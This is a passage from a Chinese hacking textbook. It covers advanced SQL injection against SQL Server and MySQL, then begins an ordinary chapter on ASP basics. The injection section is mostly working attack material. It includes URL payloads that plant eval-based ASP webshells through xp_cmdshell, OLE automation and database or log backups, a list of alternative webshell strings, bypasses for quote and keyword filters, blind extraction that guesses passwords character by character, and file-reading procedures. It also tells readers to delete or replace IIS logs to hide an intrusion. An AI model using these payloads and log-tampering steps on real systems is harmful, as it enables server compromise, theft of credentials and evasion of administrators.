> 上面的方法虽然比较好，但是要操作注册表，似乎在我们入侵的过程中该方法并没有太大的利用价值，不过对于我们研究技术的人来说，这也是一个很好的突破哦，搞技术就是要创新嘛。

```sql
SELECT * into [test.txt] in 'd:\web\' 'text;' from admin
```

```sql
SELECT * into [test.txt] in '\\yourip\share' 'text;' from admin
```

#### 5.6.2 SQL Server 下的高级黑客技术

在第二章中为大家介绍了一些 SQL Server 下的黑客技术，而本节继续为大家介绍更为高级的技术。因为前面已经有了 SQL 的基础知识做铺垫，所以接下来的知识将会更好理解。

我们利用 and user>0 可以得到当前数据库的用户名。我们知道在 SQL Server 中数据库的表名是有权限之分的。那么怎么判断当前数据库用户名的权限呢？下面就来介绍。判断当前数据库用户名是否拥有比较高权限的方法为：

```sql
id=xx and 1=(SELECT IS_SRVROLEMEMBER('sysadmin'))
id=xx and 1=(SELECT IS_SRVROLEMEMBER('serveradmin'))
id=xx and 1=(SELECT IS_SRVROLEMEMBER('setupadmin'))
id=xx and 1=(SELECT IS_SRVROLEMEMBER('securityadmin'))
id=xx and 1=(SELECT IS_SRVROLEMEMBER('diskadmin'))
id=xx and 1=(SELECT IS_SRVROLEMEMBER('bulkadmin'))
```

上面的权限都属于管理员。如果当前数据库用户名的权限属于其中一个，返回就是正确的；否则返回就会出错。判断当前数据库用户名是否为 DB_OWNER 的方法是：id=xx and 1=(SELECT IS_MEMBER('db_owner'))。

在 SQL Server 的 master.dbo.sysdatabases 表中存放着 SQL Server 数据库系统中所有的数据库信息，只需要 PUBLIC 权限就可以对此表进行 SELECT 操作。所以普通的 SQL Server 账号也可以获得数据库系统中的所有数据库名。

```sql
获得第一个数据库名的方法为：
id=xx and (select top 1 name from master.dbo.sysdatabases order by dbid)>0

获得第二个数据库名的方法为：
id=xx and (select top 1 name from master.dbo.sysdatabases
where name NOT IN(select top 1 name from master.dbo.sysdatabases order by dbid)
order by dbid)>0
```

依次类推，直到获得所有数据库名。

我们在入侵完成后一般要进行日志删除工作，我们可以利用 SQL Server 来完成这个工作。比如我们要删除 2007 年 3 月 1 号的日志：

```sql
exec master.dbo.xp_cmdshell 'del C:\winnt\system32\logfiles\W3SVC5\ex070301.log >c:\temp.txt'
```

C:\winnt\system32\logfiles\W3SVC5\ex070301.log 就是 2007 年 3 月 1 号日志的全路径。虽然这样可以直接删除，但是对于有经验的管理员来说，如果他在查看日志时发现 2007 年 3 月 1 号没有日志，实际上对于一个服务器来说这几乎不可能，所以基本上可以断定网站被入侵了。所以为了增加隐蔽性，同时也是为了迷惑管理员，我们可以用其他日期的日志代替含有我们入侵记录的日志。比如我们用 2007 年 2 月 20 号的日志代替 2007 年 3 月 1 号的日志：

```sql
exec master.dbo.xp_cmdshell 'copy C:\winnt\system32\logfiles\W3SVC5\ex070220.log C:\winnt\system32\logfiles\W3SVC5\ex070301.log >c:\temp.txt'
```

##### 1. WebShell

在第 2 章中，为大家介绍了两种获得 shell 的办法，不过这两种方法都要在 SA 权限下才能执行。接下来我将为大家介绍只要 DB_OWNER 权限就可以获得 shell。

通过第 2 章的学习，大家都已经知道了一般系统后台管理界面都有文件上传功能。获得管理员账号和密码后，通过直接登录或 COOKIE 欺骗等方式登录后台，然后上传一个网页木马从而获得 WebShell。这些常见的入侵手段相信大家都已经掌握了。

- 1）获取 WEB 路径

要往网站目录下写入 Web Shell，那么首先就应该获取网站的根目录。下面介绍几种常用方法。

第一种：利用已经获得的 shell（通过 XP_CMDSHELL 或 SP_OAMETHOD）搜索网站下面的文件。适用于当前连接数据库的账号有 SA 权限。比如我们利用 SP_OAMETHOD 在服务器的 D 盘下面搜索文件“index.asp”：

```sql
DECLARE @shell INT
EXEC master..SP_OAMETHOD 'wscript.shell', @shell OUT
EXEC master..SP_OAMETHOD @shell, 'run', NULL,
'cmd /c dir /s d:/index.asp > c:/123.txt'
```

注意：上面的命令运行后马上就返回了，所以除非看到 c:/123.txt 里面含有“File Not Found”或文件已找到字样，否则说明文件搜索还在继续。  
我们还可以利用 XP_CMDSHELL 来搜索：exec master..xp_cmdshell 'dir /s d:/index.asp'。

第二种：还是利用上面的 shell，同样需要当前连接数据库的账号有 SA 权限。不过这个方法不是通过搜索文件，而是利用 IIS 提供的接口来获得网站的根目录。下列命令将显示第一个网站的一些配置信息，里面包含网站的根目录。

```sql
cmd /c cscript.exe C:\Inetpub\AdminScripts\adsutil.vbs ENUM W3SVC/1/root
```

如果这个服务器是一个虚拟主机，那么这个服务器上还有其他网站。比如我们要获得第二个网站的一些配置信息，则可以输入：

```sql
cmd /c cscript.exe C:\Inetpub\AdminScripts\adsutil.vbs ENUM W3SVC/2/root
```

只需要改变 root 前的数字就可以了，不同数字代表第几个网站的配置信息。

第三种：利用扩展存储过程 xp_regread，只要有 PUBLIC 权限就能够运行它。IIS 默认路径存放在注册表中，通过以下 SQL 语句就能够将它读取出来：

```sql
exec master.dbo.xp_regread
'HKEY_LOCAL_MACHINE',
'SYSTEM\CurrentControlSet\SERVICES\W3SVC\Parameters\Virtual Roots\',
'/'
```

第四种：利用扩展存储过程 xp_dirtree。通过它可以列出指定目录下所有子目录和文件。这个扩展存储过程有三个参数：第一个参数是路径，第二个参数是目录深度，第三个参数表示是否列出文件。如果第三个参数为 0，那么只列出目录。最重要的一点是这个存储过程只需要 PUBLIC 权限便可以执行。

目前比较常见的方法是通过 xp_dirtree 把某个盘或某个目录下的子目录和文件列出来，插入到一个表中，并逐条读取表中的数据。通过切换不同目录，达到浏览硬盘、搜索站点根目录的目的。它的利用过程类似如下，这里我用 http://www.xxx.com/index.asp?id=2 作为我们所要进行渗透的网站。首先建立一个临时表，把 E 盘下面的 1 级子目录和文件插入到表中：

```sql
http://www.xxx.com/index.asp?id=2;CREATE TABLE tmp([ID] int IDENTITY(1,1) NOT NULL,
[name] [nvarchar](300) NOT NULL,[depth] [int] NOT NULL,[isfile] [nvarchar](50) NULL);
insert into tmp exec master..xp_dirtree 'e:/',1,1
```

然后，我们来获得 tmp 这个临时表中的第一条数据：

```sql
http://www.xxx.com/index.asp?id=2 and (select name from tmp where id=1)>1
```

返回结果如图 5-1 所示。

图 5-2 得到数据库中第一条记录

从上面的返回结果我们可以看到临时表中的第一条记录了，其中“artic”就是该网站下第一个文件的文件名或目录。我们逐步地递增 ID 值便可以把所有的数据找出来，从而知道我们所要找的文件的绝对路径。最后就是不要忘记把临时表删除，通过上面的方法，可以快速地找出网站的根目录所在。

## （2）写入 Web Shell

通过 SQL Server 往磁盘上写入文件同样有几种不同的方法，而且有不同的使用环境。以下将向大家一一介绍。

- 1. 利用 `XP_CMDSHELL`。有了 shell 之后，利用 `CMD.EXE` 的内置命令 `ECHO` 来写入一个 ASP 文件。提交一下 URL，在这个网站的根目录下写入一个一句话木马服务端。

```url
http://www.xxx.com/index.asp?id=2;exec master..xp_cmdshell 'echo ^<script runat=server language=javascript^>eval(request.form("cmd"))^</script^> >e:\web\index.asp'
```

然后，再利用一句马的客户端提交一个大马，最终获得一个 webshell。不过要注意的是，用 ECHO 命令来写入文件时，像“<>”这些特殊符号前面必须加上转义字符“^”。

- 2. 利用 SQL Server 的 OLE 对象接口，直接调用 FSO（File System Object）写入文件。SQL 语句如下：

```sql
declare @o int, @f int
exec sp_oacreate 'scripting.filesystemobject',@o out
exec sp_oamethod @o, 'createtextfile', @f out, 'e:\web\index.asp',1
exec sp_oamethod @f,'writeline',NULL,
'<script runat=server language=javascript>eval(request.form("cmd"))</script>';
```

用 URL 提交时的格式如下：

```url
http://www.xxx.com/index.asp?id=2;declare @o int, @f int
exec sp_oacreate 'scripting.filesystemobject',@o out
exec sp_oamethod @o, 'createtextfile', @f out, 'e:\web\index.asp',1
exec sp_oamethod @f,'writeline',NULL,
'<script runat=server language=javascript>eval(request.form("cmd"))</script>';
```

- 3. 利用存储过程 `sp_makewebtask`（最终调用 `xp_makewebtask` 扩展存储过程）。提交后将在网站根目录下生成一个 `shell.asp`：

```url
http://www.xxx.com/index.asp?id=2;exec master..sp_makewebtask
@outputfile='e:\web\shell.asp',@charset=gb2312,@query='select "<script runat=server language=javascript>eval(request.form("cmd"))</script>"'
```

- 4. 备份。前面介绍的三种写入 SHELL 的方法，PUBLIC 权限默认情况下都没有权限来利用。而这个方法却可以，是目前 PUBLIC 权限用户写入 SHELL 的唯一途径之一（文中称由 Swan@SEU 发现）。

为什么通过备份数据库到硬盘的方法就能获得一个 WebShell？这要从 IIS 处理 ASP 文件的机制说起。ASP 后缀的文件由 ASP.DLL（动态链接库文件）负责解释执行。

ASP 脚本以“<%”为开始标记，结束标记为“%>”。除此之外，其他所有字符不做任何处理便直接返回给客户端。在能往数据库中插入任何数据的情况下，假如把数据库备份到磁盘并把后缀名设置为 ASP，同时备份文件里面包含了我们精心构造的“<%******%>”，结果我们就可以得到一个 shell 了。

不过根据 Swan 介绍，如果数据类型是文本格式的，如 TEXT、NVARCHAR 等，假设原始内容是“abc”，备份出来后，数据可能会被换成其他格式，如宽字符“a b c”。如果这样，精心构造的 ASP SHELL 就可能不会成功运行了。但数据类型是二进制格式，如 IMAGE，就不会存在这个问题。但依然会存在其他可能导致失败的问题：

- 假如原始数据中本来即存在一些特殊字符，如“<%”之类，那么导出的 ASP 就无法正常执行了。
- 注入过程因失误注入一些无效的特殊字符，也会给 ASP 的正常运行带来麻烦。这样就可能要更换另一个数据库来继续注入、备份导出。

不过我们使用备份中一个叫增量备份的方式可以比较好地解决上面所讲的问题，而且这样还避免备份出来的 ASP 文件太大。假设这里有一个数据库 hack，那么我们使用下面的 SQL 语句即可完成：

```sql
create table tmp(str image)
backup database hack to disk='e:\web\tmp.bak' with init
insert into tmp(str) values('<script language=javascript>eval(request.form(''cmd''))</script>')
backup database hack to disk='e:\web\shell.asp' with differential
```

其中，`e:\web\tmp.bak` 是备份，`bak` 是备份文件。

除了上面的备份方法得到 shell 外，我们还可以利用 Log 来备份得到 shell。当 SQL 注入时得到 DB_OWNER 权限，接下来可以做的工作很多，比如找管理员密码、后台管理都可以帮助你拿到 Webshell，但是利用 Log 备份同样可以实现，而且 Log 备份出来的木马体积小、成功的可能性很大。

不过在 Log 备份中，经常会遇到一些比较头痛的问题，那就是闭合问题，在这里也给大家做一个总结。

Log 备份的过程如下所示。如果返回正常的页面就说明我们这一步的操作成功了，如果没有返回正常页面就是出错了，我们可以根据返回的错误类型查找原因。

```url
http://www.xxxx.com/xxx.asp?id=x;alter database databasename set recover full

http://www.xxxx.com/xxx.asp?id=x;create table cmd(a image)--

http://www.xxxx.com/xxx.asp?id=x;backup log databasename to disk='c:\cmd' with init

http://www.xxxx.com/xxx.asp?id=x;insert into cmd(a) values('<%%25execute(request.form("cmd"))%%25>')--

http://www.xxxx.com/xxx.asp?id=x;backup log databasename to disk='x:\xxx\xxxx\shell.asp'--

http://www.xxxx.com/xxx.asp?id=x;drop table cmd--
```

在 Log 备份中，经常返回没有闭合的问题，下面就是一些我们可以将 values 中的内容进行更换的方式。当我们的一种方式不行的话，就可以换另一种方式。当所有的方式都用完了，那么差不多 Log 备份也就没希望了。我们可以替换的内容有：

```text
<%%25execute(request.form("cmd"))%%25>
<%execute(request.form("cmd"))%>
%><%execute request.form("cmd")%><%
<script language=VBScript runat=server>execute request.form("cmd")</script>
<%25execute(request.form("l"))%25>
```

在做 Log 备份的时候，我们要注意一些问题：要注入我们目前所入侵的机器是不是 Web 主机，简单的方法就是利用前面寻找目录的方法翻看目录，看有没有 IIS 安装文件。当确定是 Web 主机后，就是要寻找这个网站的目录了，这个是很重要的，如果备份到一个错误的目录，当然我们就没办法访问了。

当备份成功后我们就可以利用一句马的客户端进行连接访问了。用 execute 正常备份出来时会有错误提示，当显示 500 错误时，我们将 IE 错误提示打开，当显示“Microsoft VBScript 运行时错误 错误 '800a000d' 类型不匹配: 'execute'”时，表示我们已经成功了，这个时候就可以用客户端进行连接了。

##### 2. 突破限制

前面我们的演示都是基于最理想的情况下测试环境，即没有任何的限制。但是在我们真正的入侵过程中，通常会遇到各种各样的条件限制，而这个时候我们就要突破它的限制，接下来就为大家介绍。

在 SQL 注入过程中，单引号有着非常特殊的意义，如测试某个页面是否存在 SQL 注入漏洞。一般会提交如下 URL：

```url
http://www.xxx.com/xx.asp?id=x'
```

SQL 注入过程中需要提交字符串参数时，也会需要用到单引号，如：

```url
http://www.xxx.com/xx.asp?id=x and 'xfocus'=user
```

所以现在稍微有点安全意识的程序员都会把参数中的单引号过滤掉，或者替换成两个单引号。但是如果不问青红皂白，把所有类型的参数都进行这样的过滤，还会存在安全隐患。过滤单引号对字符型的 SQL 注入能够起到有效的防御作用，但是对于数字型的 SQL 注入就无效了。因为对于数字型的 SQL 注入，不用单引号也可以达到提交字符串的效果，常用的方法有三种。

第一种：用 MSSQL 中的 CHAR 函数来组合字符串。CHAR 函数可以将 int ASCII 代码转换为字符的字符串。字符“x”的 ASCII 码为 120，即 16 进制的 0x78，所以下面的等式是成立的：

```text
'x'==char(120)==char(0x78)
```

需要注意的是一个等于号是赋值操作，而两个等于号的作用才是相等。

第二种：使用二进制字符串。字符“x”的十六进制为 0x78，二进制为 0x7800，相应地，“xfocus”字符串的二进制为 0x780066006f00630075007300，所以下面 URL 跟上面的 URL 都是等价的：

```url
http://www.xxx.com/xx.asp?id=x and user=0x780066006f00630075007300
```

第三种：利用数据库中已有的字符串。例如要判断当前连接数据库的账号是否为“dbo”，先想办法用正常的途径在数据库中插入这个字符串，如利用我们注册信息里的用户名或密码等字段。然后：

```url
http://www.xxx.com/xx.asp?id=x and user=(select 某字段 from 某表 where ID=x)
```

通过上面的介绍可以知道，对于数字型的 SQL 注入，单纯地过滤单引号是远远不够的。目前很多程序员也意识到了这个问题。于是很多程序员把“select”“insert”等 SQL 关键字加入到过滤列表中，这就组成了我们目前经常所听到的通用防注入系统，在第四章中已经有了简单的介绍了。最常见的过滤函数类似如下：

```vb
Function Checkstr(String)
if not isnull(String) or String<>"" then
Dim Temp
    Temp=Replace(String,"'","")
    Temp=Replace(String,"select","")
    Temp=Replace(String,"update","")
else
    Checkstr=String
end if
End function
```

上面的函数的作用就是把“select”等 SQL 关键字替换成空，难道这样就可以阻挡我们入侵的步伐吗？答案是不可以。在解释原因之前先来看看 Replace() 函数的定义：

```text
Replace(expression, find, replacewith[, start[, count[, compare]]])
```

这个函数一共有六个参数，但一般程序员只会指定前面三个参数。最后一个参数 compare 给大家解释一下。这个参数是可选的，通过指定不同的参数来指示以何种方式进行字符串比较。可选的参数有两个，一是以二进制方式（值为 0）进行比较，一是以文本方式（值为 1）进行比较。如果省略这个参数，就默认以二进制的方式进行字符串比较。通俗地讲，二进制方式对字符比较时大小写敏感，文本方式对大小写则不敏感。

SQL Server 对命令的大小写是不敏感的，所以通过改变 SQL 关键字的大小写，如把“select”变为“sELecT”，不仅能绕过字符过滤，而且命令也能够正常执行，所以真正完全可靠的过滤函数应该类似于：

```vb
Function Checkstr(String)
if not isnull(String) or String<>"" then
Dim Temp
    Temp=Replace(String,"'","")
    Temp=Replace(String,"select","",1,-1,1)
    Temp=Replace(String,"update","",1,-1,1)
else
    Checkstr=String
end if
End function
```

上面只是简单地为大家做了个演示，其实对于数字型的 SQL 注入，防御完全没有必要那么复杂，把参数用 IsNumber 函数判断一下就行了。

在前面的演示过程中，都是通过从 IIS 返回的错误信息中获取我们所需要的数据。但是对于有经验的管理员来说，他会让服务器不显示错误信息，那么在这种情况下我们怎么办呢？接下来为大家介绍。

如果没有返回的错误信息，那么要获取我们想要的数据，其基本原理是把要获取的数据与某个值进行比较，如果相等，那么页面将返回正常。这里根据我们所要获取的信息数据类型差别分为两种情况来讨论。

- 第一种：获取 INT 型数据。例如想要了解当前数据库中几张表，先猜它是否大于 10：

```url
http://www.xxx.com/xx.asp?id=x and (select count(*) from sysobjects where xtype='U')>10
```

如果页面显示不正常，那么更改数值继续猜，直到页面显示正常为止。我们还可以采用折半算法以加快猜解速度。

这里简单为大家介绍一下折半算法，比如上面我们有 20 张表，假设一开始猜解 60，那么返回肯定是错误的了。这个时候就用折半算法，即猜解 60 的一半 30。这个时候返回还是错的，那么我们就猜解 30 的一半 15，那么返回正常。那么这个时候可以确定数据就在 15 到 30 之间。那么我们继续猜 15 到 30 之间的一半数，即 23。那么返回错误，那么又可以确定正确的数字是位于 15 至 23 之间。那么我们继续猜 15 到 23 之间的一半，即 19，那么返回正常。这个时候又可以确定正常数字位于 19 与 23 之间，那么再猜解 19 到 23 之间的一半 21，返回错误。那么这个时候就剩下一个 20 没有猜解了。这就是折半算法，利用其一半来快速定位数字大小。

- 第二种：获取字符串数据。把字符串拆分出来，逐字符进行猜解，例如要猜解当前数据库用户的第一个字符：

```url
http://www.xxx.com/xx.asp?id=x and SUBSTRING(user,1,1)='a'
```

如果不想用单引号，或者系统已经过滤了的话，可以把字符转换为 ASCII 码后再猜测也可以：

```url
http://www.xxx.com/xx.asp?id=x and ASCII(SUBSTRING(user,1,1))=97
```

##### 3. 其他技巧

前面已经为大家介绍了 ASCII 字符的猜解。ASCII 字符大小是一字节，值位于 0~255 之间。UNICODE 字符（如汉字）大小是两个字节，值位于 0~65535 之间。那么我们猜解 UNICODE 字符的方法也和 ASCII 差不多。首先我们还是用 SUBSTRING 函数从目标中取出一位字符，然后用 UNICODE 函数获取这个字符的整数值，如果整数值大于 255，说明此字符为 UNICODE 字符，反之就是 ASCII 字符，猜解过程如下所示：

```url
http://www.xxx.com/xx.asp?id=x and UNICODE(substring(user,1,1))>32768
```

```url
http://www.xxx.com/xx.asp?id=x and UNICODE(substring(user,1,1))>16384
```

对于一个 UNICODE 字符，用折半算法一般猜测 16 次就能得到结果。得到 UNICODE 字符的整数值后，如何把它还原为字符？例如想要查询 23433 这个整数值对应的 UNICODE 字符，那么输入以下命令即可：

```sql
select nchar(23433)
```

或者借助 SQL 注入也可以，如提交以下 URL：

```url
http://www.xxx.com/xx.asp?id=x and (select nchar(23433))>0
```

返回的结果如图 5-2 所示，可以看到 23433 的值为“安”字。

图 5-2 23433 的值为“安”

下面还介绍几种读取文件的方法。这里我就以读取 C 盘下的 boot.ini 为例子作为说明。要读取不同的文件，只需要改变这个目录就可以了。

第一种：利用 XP_CMDSHELL

```sql
create table hack..tmp(str nvarchar(800))
```

```sql
insert into hack..tmp exec master..xp_cmdshell 'type c:\boot.ini'
drop table tmp

-- 第二种：利用 OLE 对象接口
create table hack..tmp(str nvarchar(800))
declare @o int,@f int,@str nvarchar(4000)
exec sp_oacreate 'scripting.filesystemobject',@o out;
exec sp_oamethod @o,'opentextfile',@f out,'c:\boot.ini',1;
exec sp_oamethod @f,'readall',@str out;
insert into hack..tmp values(@str)
drop table tmp

-- 第三种：BULK INSERT
create table hack..tmp (str nvarchar(800))
bulk insert hack..tmp from 'c:\boot.ini'
drop table tmp

-- 第四种：扩展存储过程 xp_readerrorlog
create table hack..tmp(str nvarchar(800),row int)
insert into tmp exec master..xp_readerrorlog 1,'c:\boot.ini'
drop table tmp
```

上面的四种方法都是将 `c:\boot.ini` 中的数据写入了临时表 hack 中，至于如何读取临时表中的数据在前面已经讲述了，这里就不再重复了。而且要使用上面的四种方法，必须是具有 SA 权限的用户。

下面我给大家列举其他的一些有用的存储过程，其中表 5-5 中的存储过程只需要 PUBLIC 权限即可操作，而表 5-6 则需要 SA 权限。

| 扩展存储过程 | 用途 | 使用范例 |
|---|---|---|
| xp_getfiledetails | 获取指定文件的详细信息，如大小、创建日期。 | `exec master..xp_getfiledetails 'c:\boot.ini'` |
| xp_ntsec_enumdomains | 获取服务器名 | `exec master..xp_ntsec_enumdomains` |
| xp_fileexist | 判断目录/文件是否存在 | `exec master..xp_fileexist 'c:\boot.ini'` |
| xp_msver | 获取系统信息 | `exec master.dbo.xp_msver` |

表 5-5 只需要 PUBLIC 权限

| 扩展存储过程 | 用途 | 使用范例 |
|---|---|---|
| xp_availablemedia | 列举可用的系统分区 | `exec xp_availablemedia` |
| xp_enumgroups | 列举系统中的用户组 | `exec xp_enumgroups` |
| xp_makecab | 将指定的多个文件压缩到一个档案中 | `exec xp_makecab 'c:\1.cab',MSZIP,1,'c:\boot.ini',1` |
| xp_unpackcab | 解压档案 | `exec xp_unpackcab 'c:\1.cab','c:\tmp',1` |
| xp_servicecontrol | 控制指定服务 | `exec xp_servicecontrol 'pause','schedul'；exec xp_servicecontrol 'start','schedul'；exec xp_servicecontrol 'stop','schedul'` |

表 5-6 需要 SA 权限

### 5.7 MySQL

到了这里相信大家都已经对 MySQL 安装及基本操作都有了一定的了解。MySQL 是目前使用最广泛的开源数据库系统，其原因有 MySQL 很快而且稳定、很容易学习、可以在各种主流操作系统上运行，而且可以用于多种程序设计语言来编写等等优点。同样的它也是一种关系数据库系统。

PHP 与 MySQL 相结合的数据库系统解决方案被越来越多的网站所采用，其中又以“Linux+Apache+MySQL+PHP”的组合方式最为流行，这种组合被人们称为 LAMP 模式。MySQL 不仅仅适合小型的网站，而且连 Yahoo!、美国航空航天局等数据量非常大的公司和机构也正在使用它。下面我将给大家介绍一些 MySQL 的高级黑客技术。

#### 5.7.1 MySQL 下的高级黑客技术

在 MySQL 中内置了很多函数，利用它们即使在没有联合查询功能的老版本 MySQL 上也可以做一些意想不到的操作。假设网站存在 `http://www.xxxx.com/`，我们想知道用户 ID 等于 10 的用户的密码，那么首先进行如下请求：

```text
http://www.xxxx.com/index.php?id=10 and length(password)=12#
```

我们通过 `length()` 函数以及是否正确返回正常页面来确定用户密码的长度，这里我们猜解的是 12 位，注意数字后要有一个 `#` 号。  
接下来用 `mid()` 和 `char()` 来暴力猜解口令的每一个字符：

```text
http://www.xxxx.com/index.php?id=10 and mid(password,1,1)=char(0x60)#
```

同样猜对了则页面返回正常。`Mid()` 函数原型是 `Mid(str,pos,len)`，也可以用 `substring()` 函数。`Char()` 函数的参数是 ASCII 值，在 0~255 之间，一个遍历过去就可以完成猜解。

另外还可以用 `between()` 函数先判断这个字符是数字还是字母的大范围，这样就加快了暴力猜解的速度。比如要判断字符是否是小写字母还可以用如下请求：

```text
http://www.xxxx.com/index.php?id=10 and (mid(password,1,1) between char(0x61) and char(0x7A))#
```

除了 `char()` 函数，还可以用 `ord` 函数来进行猜解。`Ord` 函数可以得到字符的 ASCII 值，所以它也能实现类似功能：

```text
http://www.xxxx.com/index.php?id=10 and ord(mid(password,1,1))=0x6D#
```

用 `ord` 函数的另一个好处就是可以使用大于、小于这种运算符来确定字符的范围：

```text
http://www.xxxx.com/index.php?id=10 and ord(mid(password,1,1))>0x41#
```

MySQL 除了前面给大家介绍的 `load_file()` 函数可以读取文件外，还可以用 `infile` 和 `outfile` 语法读写文件。不过这涉及到了一些 PHP 的知识，所以把它放在第 10 章介绍。

对于数据库系统，这里我主要给大家介绍了 SQL Server 和 MySQL。目前世界上还有很多的数据库系统，比如非常著名的 Oracle、DB 等等，它们都是大型的商业数据库系统。我曾专门查了下 Oracle 数据库系统的价格，标价是 42 万多人民币。一般使用这样的数据库系统的是大型网站、银行等机构。对于他们这样的网站一般采用“JSP+UNIX+ORACLE”架构。

对于这样大型的商业数据库系统，只有少数的人接触得到，所以这里对于这样的商业数据库系统我并没有讲。不过它们都是属于关系数据库系统，所以前面所讲的 SQL 结构化查询语言的各种操作命令及语句也都适合它们，相信有这些基础基本上可以满足大家在入侵和代码分析过程中的需要了。

**声明：**本章中的部分 SQL 基础知识参考了清华大学出版社出版的《数据库系统原理与应用教程》，该书由裘旭光、刘晶编著；和人民邮电出版社出版的《MySQL 权威指南》，该书由 Michael Kofler 著；部分黑客知识参考了电子工业出版社出版的《网络渗透技术》，该书由王伟、郭添森等人编著。

- 你从本章可以学到如下几点：
- 1、基础知识
- 2、各类对象与方法
- 3、ASP 相关组件
- 4、学习 ADO 技术及相关对象

## 第六章 ASP 基础

### 6.1 ASP 概述

ASP 是服务器端的脚本语言环境。使用 ASP 可以将 HTML 页面、脚本命令和 ActiveX 组件组合起来，创建动态的、交互的 Web 网页和基于 Web 的功能强大的应用程序。本节我给大家介绍什么是 ASP、ASP 的特点及 ASP 的文档结构等等。

#### 6.1.1 什么是 ASP

ASP（Active Server Pages）是微软推出的一种用来取代 CGI（Common Gateway Interface）的技术。简单地讲，ASP 是位于服务器端的脚本运行环境，通过这种环境，我们可以创建和运行动态的、交互式 Web 应用程序，如交互式的动态网页，包括使用 HTML 表单收集和处理信息、上传和下载文件等等。

ASP 内含在 IIS 中，而且在第一章的时候大家已经学会了如何搭建一个 ASP 环境了。有了 ASP，我们就不必担心客户端浏览器是否能够运行我们所编写的代码了，因为所有的程序都将在服务器端执行，包括所有嵌在普通 HTML 中的脚本程序。当程序执行完了之后，服务器就将结果返回到客户端的浏览器上，这样的好处就是减轻了客户端浏览器的负担，大大提高了我们的信息交互速度。ASP 程序其实是以扩展名为 `.asp` 的纯文本形式存在于 Web 服务器上的，你可以用任何文本编辑器打开它，ASP 程序中可以包含纯文本、HTML 标记以及脚本命令。

- 从字面上来说，ASP 包含了以下三方面的含义：
- 1、**Active**：ASP 使用微软公司的 ActiveX 技术。ActiveX 技术是现在微软公司软件的重要基础。它采用了封装对象、程序调用对象的技术，简化了编程，加强了程序间的合作。只要在服务器上安装了这些组件，通过访问组件，我们就可以快速、简易地建立起自己的 Web 应用程序。
- 2、**Server**：ASP 运行在服务器端。这样就不必担心浏览器是否支持 ASP 所使用的编程语言。ASP 的编程语言可以是 VBScript 和 JavaScript，在前面我们已经仔细地学习了这两种脚本语言了，有了这个基础我们才可以学习 ASP。
- 3、**Pages**：ASP 返回标准的 HTML 页面，可以在常用的浏览器中显示。浏览者查看页面文件的时候，看到的是 ASP 生成的 HTML 代码，而不是 ASP 程序代码。这样就可以防止 ASP 源代码泄露了。

#### 6.1.2 ASP 的特点

- 作为 IIS 环境下开发 Web 应用的一种简单、方便的编程工具，ASP 具有以下的特点：
1. 使用 VBScript、JavaScript 等简单易懂的脚本语言，结合 HTML 代码，就可以快速地完成网站应用程序的开发。
2. 容易编写，不需要编译就可以在服务端直接执行。
3. 使用普通的文本编辑器，比如 Windows 下的记事本就可以完成代码的编辑。
4. 与浏览器无关，只要客户端浏览器能够执行 HTML 代码，就可以浏览利用 ASP 设计的网页内容。ASP 所使用的脚本语言（VBScript、JavaScript）均在 Web 服务器端执行，用户端的浏览器不需要能够执行这些脚本语言。
5. ASP 能与任何 ActiveX Scripting 语言相容。除了可使用 VBScript 或 JavaScript 语言来设计外，还可通过 plug-in 的方式使用由第三方所提供的其他脚本语言，譬如 REXX、Perl、Tcl 等。脚本引擎是处理脚本程序的 COM（Component Object Model）物件。
6. ASP 的源程序不会被传到客户端浏览器，因而可以避免所写的源程序被他人剽窃或篡改，提高了程序的安全性。
7. 可使用服务器端的脚本来产生客户端的脚本。
8. ActiveX Server Components（ActiveX 服务器组件）具有无限可扩充性。可以使用 Visual Basic、Java、Visual C++ 等各种编程语言来编写你所需要的 ActiveX Server Component。

#### 6.1.3 ASP 的文档结构

在第一章的时候我就曾经给大家介绍了，ASP 文档就是普通的文本文件，可以使用任何文本编辑器进行编辑。ASP 文件同普通文本文件的区别是 ASP 文件的后缀名必须为“asp”，如 `default.asp`、`index.asp` 等。另外在访问方式上，ASP 文件和 HTML 文件也是有区别的，即 HTML 文件可以使用物理路径来访问，也可以通过虚拟路径来访问；而 ASP 文件只能通过虚拟路径访问。

##### (1) ASP 文件组成

- 一个完整的 ASP 文件应该包含下面的这些内容：
1. 普通的 HTML 文件，也就是普通 Web 页面的内容。
2. 服务器端的脚本程序代码，位于 `<%......%>` 内的程序代码。
3. 客户端的脚本程序代码，位于 `<script>......</script>` 内的程序代码。

第一条很容易理解，特别是大家已经学了 HTML 语言之后。区分 HTML 命令标识与普通字符，可以在 HTML 命令标识的两端分别加上 “<” 和 “>” 分隔符，比如下面的代码：`<B>hello world!</B>` 就会在浏览器中输出一个加粗了的“hello world!”语句。我想这点大家学了 HTML 之后应该很清楚，如果有不清楚可以翻到前面去复习一下。

对于第二和第三条，需要解释一下。ASP 是依赖于脚本语言的，但是它同普通的脚本语言又有很大的不同。普通的脚本语言如 VBScript、JavaScript 等都是在客户端执行的，即 HTML 文档被下载以后通过浏览器解释执行，它的格式就是代码被限制在 `<script>......</script>` 标记对中。

而脚本语言用作 ASP 编程的时候，就不是在客户端执行了，必须通过服务器如 IIS 的解释之后，再发到客户端，由浏览器来解释执行。虽然服务端脚本和客户端脚本的语法是一样的，但是为了能够让服务器区分哪些是服务器端、哪些是客户端，在 ASP 编程的时候引入了 `<%......%>` 标记对，只要被包含在该标记对中的代码都会被认为是服务器端脚本语言。服务器端脚本语言的定义格式如下：

```asp
<%
' 脚本代码
' VBScript 或者是 JavaScript
%>
```

还有我们定义服务端脚本语言的格式并不是唯一的，还可以采用下面的形式来定义：

```html
<script language="VBScript" runat="Server">
' 脚本代码
</script>
```

这种服务器端脚本语言定义的方法和我们客户端的基本类似，只是必须在 `<script>` 标记后加上 `runat="Server"` 的关键字，因为默认的情况下是在客户端执行的。

##### 2. 声明脚本语言

在 ASP 编程中，可以使用的脚本语言很多种，但常用的是 VBScript 和 JavaScript。如何在程序中声明这些脚本语言呢？大致可以分为三种方法，下面给大家一一介绍。

- 1. 直接在 IIS 中设置，这种设置方法在第一章中已经有了介绍。如果采用了这种方法，那么在 ASP 编程中若不特别声明，默认表示所有 ASP 程序都采用这种脚本语言。IIS 默认的脚本语言是 VBScript。
- 2. 第二种方法就是直接在 ASP 文件开始处设置。采用这种方法只作用于该页面，对其他页面不产生影响。如果在一个 ASP 文件的开始处设置成 JavaScript 脚本语言，那么即使在 IIS 中设置成 VBScript，在该页面也会默认为 JavaScript。第二种脚本语言的声明方法如下：

```asp
<%@ language=JavaScript %>
或者
<%@ language=VBScript %>
```

举个例子给大家看看：

```asp
<%@ language=JavaScript %>
